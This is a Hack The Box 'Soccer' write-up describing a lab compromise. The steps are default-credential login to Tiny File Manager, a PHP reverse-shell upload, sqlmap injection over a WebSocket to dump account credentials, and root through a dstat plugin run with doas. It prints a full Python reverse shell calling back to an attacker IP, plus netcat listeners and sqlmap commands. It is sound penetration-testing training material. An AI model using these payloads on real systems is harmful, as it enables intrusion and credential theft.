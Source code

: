 ```yaml
---
layout: post
title:  "Hackthebox - Soccer writeup"
date:   2023-05-17 19:00:00 +0300
categories: HTB write-up
description: "Hackthebox - HTB Soccer writeup - how to solve this box"
keywords: "Hack the box, HTB, writeup, Soccer"
---
```


This has been a fun box. It is ranked as easy, but I would argue it is more difficult than that. Pawning the user takes some time and thought.


## Initial foothold

As always, let's start with a port scan.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-nmap-soccer.png "HTB soccer nmap scan")

<br>

The only interesting finding for now is the http service on port 80, which is a simple static html page under the soccer.htb domain. Nothing much we can do about it. Let's brute force soccer.htb with gobuster.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/gobuster-soccer-htb.png "HTB soccer gobuster")

<br>

We find only one subdirectory /tiny. It turns out to be a very simple php file management system. By vising the official Tiny file manager page on Github I can see a list of default passwords for admin and user. And of course they work...

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-tinyfilemanager.png "HTB soccer tinyfilemanager")

<br>


When logging in as admin I can browse the webpage directory and I can see an upload function as well (not visible in the image below).

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-admin-tinyfilemanager.png "HTB soccer admin tinyfilemanager")

<br>

I uploaded the php-reverse-shell.php script that can be found under /usr/share/webshells/php in kali linux. I set my IP adress and a preferable port number and uploaded the script. Before visiting the link where the script resides I start netcat locally on my machine.

```
nc -lvp 4444
```

When visiting the php link from my browser I get a shell as www-data on my kali machine. The next step is to get a user.

<br>

## User flag

At this point I was using grep and find to check in interesting files and folders and see what services are being run on the machine. I particularly searched for references of "player" as that is the name of the user according the folder found under /home. What caught my eye is the following:

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-1.png "HTB soccer user flag")

<br>

It clearly looks like another subdomain that I can access. I had to add the same configuration in my /etc/hosts file to be able to access the soc-player.soccer.htb subdomain.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-2.png "HTB soccer user flag subdomain")

<br>

I checked around and tried sql injection on the forms, but I didn't find anything interesting. When registering a user I see that under Tickets there is another form that I can use to interact with the server.

I routed traffic through Burp and I see that it is essentially a web socket connection being utilized to check validity of tickets.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-3.png "HTB soccer Websocket protocol switch")

<br>


<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-user-flag-4.png "HTB soccer Websocket protocol burp")

<br>

At this point the websocket connection seemed the only alternative I had to move forward with this machine. I simply googled for websocket exploits as I didn't have much experience with websockets.

Eventually I found that sql injections could be suitable for my scenario and also I ended up reading this blog post: [Automating Blind SQL injection over WebSocket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html?ref=appsecguy.se)

I followed the instructions as detailed in that blog post to run sqlmap over a websocket connection. All you need to do is use:

```
ws_server = "ws://soc-player.soccer.htb:9091"
```

and set

```
data = '{"id":"%s"}' % message
```

You then run the python script on your kali machine and execute sqlmap from another shell as follows:

```
sqlmap -u "http://localhost:8081/?id=1" -p “id”
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap.png "HTB soccer SQLMap")

<br>

Bingo, I found an sql injection vulnerability.

Eventually I found myself running a few extra sqlmap commands to get a dump of the database table holding the passwords.

```
sqlmap -u "http://localhost:8081/?id=1" -p "id" --dump -D soccer_db -T accounts
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-sqlmap-2.png "HTB soccer SQLMap credentials dumping")

<br>

Let's try to login as the user "player" using ssh.

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-ssh-login.png "HTB soccer SSH login")

<br>

## Root flag

I download and run [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS?ref=appsecguy.se) to find privilege escalation paths.

I see dstat under group writable files and my user having executable rights for doas, which is a sudo alternative. My current user did not have sudo rights unfortunately.

dstat can run python plugins that found in specific directories, as per this [post](https://gtfobins.github.io/gtfobins/dstat/?ref=appsecguy.se).

If I place a python reverse shell from [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?ref=appsecguy.se#python) in /usr/local/share/dstat and then execute that  python script with dstat, by calling dstat using doas, I should get an elevated shell back at my attacker machine.

I saved the following python script as dstat-plugin in /usr/local/share/dstat.

```
import socket,os,pty;

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);

s.connect(("10.10.14.27",4444));

os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);

pty.spawn("/bin/sh")
```

I started a listener on my Kali machine.

```
nc -lvp 4444
```

Finally, I executed the python script with:

```
doas -u root /usr/bin/dstat  --plugin
```

<br>

![image]({{site.baseurl}}/docs/assets/images/2023/htb-soccer-root-flag.png "HTB soccer root flag")

<br>